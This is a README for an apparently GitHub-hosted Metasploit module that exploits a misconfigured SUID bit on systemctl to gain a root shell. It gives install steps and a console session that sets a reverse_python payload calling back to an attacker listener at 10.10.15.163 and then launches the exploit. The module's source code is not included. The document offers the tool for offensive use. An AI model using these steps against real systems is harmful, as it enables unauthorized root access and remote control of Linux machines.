

# SUID systemctl Exploit (MSF - Metasploit exploit module)

### Description:
  This module attempt to exploit a misconfigured SUID bit on systemctl binary to escalate privileges 
  & get a root shell!

### Install
  1 : copy the suid_systemctl.rb to ~/.msf4/modules/exploits/ folder
  
  2 : reload all modules at msf console, type reload_all 
  
  3 : gg.  
  
### Usage 
```
msf5 exploit(linux/local/suid_systemctl) > info

       Name: SUID systemctl Exploit
     Module: exploit/linux/local/suid_systemctl
   Platform: Linux, Unix
       Arch: cmd
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent

Provided by:
  0xl0v3r

Available targets:
  Id  Name
  --  ----
  0   Command payload

Check supported:
  Yes

Basic options:
  Name         Current Setting  Required  Description
  ----         ---------------  --------  -----------
  SESSION      13               yes       The session to run this module on.
  WritableDir  /dev/shm         yes       A directory where we can write files
  systemctl    /bin/systemctl   yes       Path to systemctl executable

Payload information:

Description:
  This module attempt to exploit a misconfigured SUID bit on systemctl 
  binary to escalate privileges & get a root shell!

References:
  https://gtfobins.github.io/gtfobins/systemctl/
  https://github.com/Code-L0V3R/suid_systemctl

msf5 exploit(linux/local/suid_systemctl) > set session 13
session => 13
msf5 exploit(linux/local/suid_systemctl) > set payload cmd/unix/reverse_python
payload => cmd/unix/reverse_python
msf5 exploit(linux/local/suid_systemctl) > set lhost 10.10.15.163 
lhost => 10.10.15.163
msf5 exploit(linux/local/suid_systemctl) > set lport 13372
lport => 13372
msf5 exploit(linux/local/suid_systemctl) > exploit 
```



### References: 
  https://gtfobins.github.io/gtfobins/systemctl/
  
